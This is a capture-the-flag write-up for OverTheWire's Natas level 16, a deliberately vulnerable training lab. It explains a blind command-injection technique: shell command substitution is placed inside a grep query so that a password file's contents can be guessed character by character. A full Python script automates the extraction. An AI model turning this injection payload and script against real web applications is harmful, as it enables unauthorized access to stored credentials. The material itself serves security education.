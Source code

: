 Looks like we have another `grep` challenge. This time, there are a ton of extra characters that aren't allowed in our query. Our input is also wrapped with double quotes to prevent us from grepping multiple files like we did before. This is actually a blessing in disguise because in Linux, the shell will still interpret special characters on strings wrapped with double quotes.

Despite being able to use special characters, we still can't get around the fact that our query is quoted. Anything we send will end up being grepped in `dictionary.txt`. Sounds like another blind injection attack to me. Now we just need to craft a *true* or *false* query that will help us find the password.

We can solve this challenge with command substitution and a nested `grep` command. By using command substitution, we can enumerate the `/etc/natas_webpass/natas17` file with something like this:

```bash
$(grep ^<injection> /etc/natas_webpass/natas17)
```

This will expand to the password, which will make the outer `grep` to search for the password in `dictionary.txt`. We also need to set a default word to look for to indicate wrong answers. Pick any word in the wordlist that is easily identifiable (i.e. does not conflict with any text in the source code).

```bash
$(grep ^<injection> /etc/natas_webpass/natas17)password
```

We can reuse the code from the last challenge to get [this (with asyncio)](files/natas/natas16_async.py) and [this (without asyncio)](files/natas/natas16.py):

```python
#!/usr/bin/env python3
import requests


url = 'http://natas16.natas.labs.overthewire.org/index.php?needle={}password'
auth = ('natas16', natas16_pass)

def get_charset():
    alnum = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz'
    charset = ''
    for char in alnum:
        search = f'$(grep {char} /etc/natas_webpass/natas17)'
        r = requests.get(url.format(search), auth=auth)
        if 'password' not in r.text:
            charset += char
    return charset

def get_password(charset):
    password = ''
    while True:
        for char in charset:
            search = f'$(grep ^{password+char} /etc/natas_webpass/natas17)'
            r = requests.get(url.format(search), auth=auth)
            if 'password' not in r.text:
                password += char
                break
        else:
            break
    return password


if __name__ == '__main__':
    charset = get_charset()
    password = get_password(charset)
    print(password)
```
